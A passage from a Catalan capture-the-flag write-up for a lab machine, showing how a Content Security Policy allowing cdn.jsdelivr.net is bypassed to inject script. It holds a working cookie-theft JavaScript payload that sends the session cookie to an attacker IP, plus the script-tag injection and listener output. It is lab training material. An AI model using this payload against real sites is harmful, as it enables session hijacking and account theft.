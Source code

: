 Primer realitzem proves per intentar llegir la nostra pròpia galeta. Com podem veure a la capçalera de les CSP es poden carregar script des del domini `https://cdn.jsdelivr.net`, això ens permet carregar script des del nostre repositori de GitHub mitjançant el següent format d'URL:

```
https://cdn.jsdelivr.net/gh/{USUARI_GITHUB}/{REPOSITORI}@{BRANCA}/{RUTA_FITXER}
```

Ens creem un compte de GitHub si encara no el tenim, creem un repositori i afegim el següent fitxer javascript, substitueix la IP per la de la teva màquina atacant.

```javascript
// cookies.js
var req = new XMLHttpRequest();
req.onload=reqListener;
var url="https://guitjapeo.thl/api/info";
req.withCredentials=true;
req.open("GET",url,false);
req.send();
function reqListener() {
    const sess=JSON.parse(this.responseText).cookie;
    location.href="http://192.168.1.116/?data="+btoa(sess);
};
```

El meu usuari GitHub és `Len4m`, el repositori que he creat és `temp` i la branca `main`, així que la URL del meu script a través del CDN de jsdelivr és.

```url
https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js
```

Ens posem a escoltar amb un servei http al port 80 a la nostra màquina atacant, després introduïm al formulari "Contingut animació" de la pàgina principal el següent codi i l'enviem

```<script src="https://cdn.jsdelivr.net/gh/Len4m/temp@main/cookies.js"></script>```

Aconseguim obtenir la nostra pròpia galeta de sessió.

```bash
┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.116 - - [21/Sep/2024 05:19:40] "GET /?data=Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== HTTP/1.1" 200 -

┌──(kali㉿kali)-[~/CTFs/TheHackersLabs/guitjapeo]
└─$ echo Y29ubmVjdC5zaWQ9cyUzQUJDelBJRmVvdEM0YlBCMnRrNkpERGVkSFF2U192cG1aLjBiV09tNDdJUTYwRjdTJTJCdkxMTFVDM2RpcHlMUGdKVDZxWWdMTkFwbXlzbw== | base64 -d
connect.sid=s%3ABCzPIFeotC4bPB2tk6JDDedHQvS_vpmZ.0bWOm47IQ60F7S%2BvLLLUC3dipyLPgJT6qYgLNApmyso
```

### Obtenir sessió Administrador

Amb el que hem preparat ara podem enviar un missatge a l'usuari Administrador amb una URL que carregui el nostre script, una mica d'explicació:
